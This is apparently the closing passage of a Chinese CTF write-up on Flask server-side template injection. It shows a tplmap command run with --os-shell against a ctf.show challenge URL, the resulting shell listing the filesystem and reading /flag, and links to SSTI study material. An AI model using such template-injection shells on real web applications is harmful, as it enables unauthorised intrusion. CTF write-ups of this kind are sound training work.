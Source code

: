 ```bash
#直接获取shell
python2 tplmap.py -u 'https://727c5e75-4ba9-40ce-8fe3-dafdafd6990d.challenge.ctf.show/?name' --os-shell

[+] Run commands on the operating system.
posix-linux $ ls
app.py
posix-linux $ ls /
\app
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
posix-linux $ cat /flag
ctfshow{82f81a13-a157-49a5-ba00-cb23de3238cb}
```



## 参考文章&学习资料
+ HelloCTF

[https://hello-ctf.com/hc-web/ssti/](https://hello-ctf.com/hc-web/ssti/)

+ 跳跳糖社区

[FLask SSTI从零到入门 - 跳跳糖](https://tttang.com/archive/1698/)

+ 

[Python新人学习-安全分析-第一部分 - BX](https://www.bx33661.com/blog/z8x9w23/)



## 其他知识
这部分就是比较零碎的了
